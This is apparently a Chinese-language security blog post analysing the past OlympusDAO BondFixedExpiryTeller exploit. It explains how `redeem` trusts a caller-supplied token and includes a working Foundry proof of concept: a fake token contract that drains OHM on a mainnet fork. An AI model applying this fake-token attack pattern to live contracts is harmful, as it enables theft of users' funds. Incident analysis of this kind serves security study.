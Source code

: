 ```yaml
---
title: "BondFixedExpiryTeller 攻击案例分析"
date: 2023-04-27T09:04:23+08:00
draft: false
author: yinhui
categories: [security]
tags: [defi] 
---
```


OlympusDao BondFixedExpiryTeller 攻击案例分析

<!--more-->

## 漏洞分析

攻击发生在以太坊链https://etherscan.io/tx/0x3ed75df83d907412af874b7998d911fdf990704da87c2b1a8cf95ca5d21504cf

存在漏洞的合约地址为: [0x007FE7c498A2Cf30971ad8f2cbC36bd14Ac51156](https://etherscan.io/address/0x007FE7c498A2Cf30971ad8f2cbC36bd14Ac51156#code)

在其中的`BondFixedExpiryTeller.sol`存在`redeem`函数, 代码如下:

```solidity
    function redeem(ERC20BondToken token_, uint256 amount_) external override nonReentrant {
        if (uint48(block.timestamp) < token_.expiry())
            revert Teller_TokenNotMatured(token_.expiry());
        token_.burn(msg.sender, amount_);
        token_.underlying().transfer(msg.sender, amount_);
    }
```

这个函数的含义是"存在tokenA, 将tokenA毁掉一定数量, 并将相同数量的tokenB发送给msg.sender, 其中tokenB由tokenA的underlying()函数来指定"

其中 `token_.underlying().transfer(msg.sender, amount_);`就是直接调用的tokenX的transfer()函数将其转给msg.sender, 也就是说该合约中如果存在任何IERC20(或类似的有转账函数的币)都可以通过这句代码转给msg.sender.

合约中有哪些币呢? 在区块链浏览器上可以看到有很多[OHM](https://etherscan.io/token/0x64aa3364f17a4d01c6f1751fd97c2bd3d7e7f1d5?a=0x007FE7c498A2Cf30971ad8f2cbC36bd14Ac51156)被转到了该合约, 查看OHM的代码

```solidity
contract OlympusERC20Token is ERC20Permit, IOHM, OlympusAccessControlled {
}

interface IOHM is IERC20 {
}
```



## POC

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.10;

import "forge-std/Test.sol";

interface IERC20 {
    function balanceOf(address owner) external view returns (uint256);

    function decimals() external view returns (uint8);
}

interface IBondFixedExpiryTeller {
    function redeem(address token_, uint256 amount_) external;
}

IERC20 constant OHM = IERC20(0x64aa3364F17a4D01c6f1751Fd97C2BD3D7e7f1D5);

//buggy:
IBondFixedExpiryTeller constant BondFixedExpiryTeller = IBondFixedExpiryTeller(
    0x007FE7c498A2Cf30971ad8f2cbC36bd14Ac51156
);

contract FakeToken {
    function underlying() external pure returns (address) {
    		//指向 OHM
    		//这样redeem()函数中的
    		// token_.underlying().transfer(msg.sender, amount_);
    		// 就变成了
    		// OHM.transfer(msg.sender, amount_);
        return address(OHM);
    }

    // 绕过require
    function expiry() external pure returns (uint48 _expiry) {
        return 1;
    }

    function burn(address, uint256) external {}
}

//attack TX: https://etherscan.io/tx/0x3ed75df83d907412af874b7998d911fdf990704da87c2b1a8cf95ca5d21504cf
contract Hack is Test {
    function setUp() public {
        vm.createSelectFork("theNet", 15794360); //ETH
    }

    function testPoc() public {
        FakeToken ft = new FakeToken();
        BondFixedExpiryTeller.redeem(address(ft), 1000 * 10 ** OHM.decimals());
        emit log_named_decimal_uint(
            "OHM balance:",
            OHM.balanceOf(address(this)),
            OHM.decimals()
        );
    }
}

```



